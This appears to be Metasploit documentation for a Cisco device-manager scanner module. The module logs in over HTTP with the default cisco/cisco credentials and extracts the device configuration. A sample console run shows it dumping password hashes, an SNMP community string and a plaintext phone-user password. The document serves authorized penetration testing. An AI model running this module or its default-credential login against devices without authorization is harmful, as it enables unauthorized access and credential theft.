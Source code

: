 ## Description

  This module scans for the presence of the HTTP interface for a cisco device and attempts to enumerate it using basic authentication.

## Vulnerable Application

  Any Cisco networking device with the HTTP inteface turned on.

## Verification Steps

  1. Enable the web interface on a cisco device `ip http server`
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/cisco_device_manager```
  4. Do: ```set RHOSTS [IP]```
  5. Do: ```run```

## Options

  **HttpUsername**

  Username to use for basic authentication.  Default value is `cisco`

  **HttpPassword**

  Password to use for basic authentication.  Default value is `cisco`

## Scenarios

### Tested on Cisco UC520-8U-4FXO-K9 running IOS 12.4

  ```
  msf5 > use auxiliary/scanner/http/cisco_device_manager 
  msf5 auxiliary(scanner/http/cisco_device_manager) > set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  msf5 auxiliary(scanner/http/cisco_device_manager) > set vebose true
  vebose => true
  msf5 auxiliary(scanner/http/cisco_device_manager) > run
  
  [+] 2.2.2.2:80 Successfully authenticated to this device
  [+] 2.2.2.2:80 Processing the configuration file...
  [+] 2.2.2.2:80 MD5 Encrypted Enable Password: $1$TF.y$3E7pZ2szVvQw5JG8SDjNa1
  [+] 2.2.2.2:80 Username 'cisco' with MD5 Encrypted Password: $1$DaqN$iP32E5WcOOui/H66R63QB0
  [+] 2.2.2.2:80 SNMP Community (RO): public
  [+] 2.2.2.2:80 ePhone Username 'phoneone' with Password: 111111
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
